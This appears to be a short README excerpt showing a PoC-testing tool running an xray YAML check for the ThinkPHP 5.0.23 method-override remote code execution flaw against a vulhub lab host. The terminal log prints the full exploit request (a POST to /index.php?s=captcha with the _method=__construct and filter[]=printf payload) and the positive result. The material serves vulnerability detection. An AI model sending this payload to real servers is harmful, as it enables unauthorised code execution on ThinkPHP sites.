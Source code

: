 漏洞环境：[thinkphp/5.0.23-rce](https://vulhub.org/#/environments/thinkphp/5.0.23-rce/)

POC：[thinkphp5023-method-rce.yml](https://github.com/chaitin/xray/blob/master/pocs/thinkphp5023-method-rce.yml)

```
[Sewell]: ~/Documents/xray_poc_demo ✗ master*
➜  ./xray_poc_demo --poc thinkphp5023-method-rce.yml --url http://34.xxx.69.xxx:8080
------------------ 1 ------------------
* rule:{Method:POST Path:/index.php?s=captcha Headers:{Cookie: ContentType:application/x-www-form-urlencoded} Body:_method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=TmlnaHQgZ2F0aGVycywgYW5%25%25kIG5vdyBteSB3YXRjaCBiZWdpbnMu&get[]=1
 Search: FollowRedirects:false Expression:response.body.bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1')
}
* resp: 200 map[Content-Type:[text/html; charset=UTF-8] Date:[Fri, 13 Dec 2019 05:58:16 GMT] Server:[Apache/2.4.25 (Debian)] Vary:[Accept-Encoding] X-Powered-By:[PHP/7.2.12]]
* expr: &{Body:bcontains(b'TmlnaHQgZ2F0aGVycywgYW5%kIG5vdyBteSB3YXRjaCBiZWdpbnMu1') ContentType: Status:}
* Vuln: poc-yaml-thinkphp5023-method-rce
* Target: http://34.xxx.69.xxx:8080
```

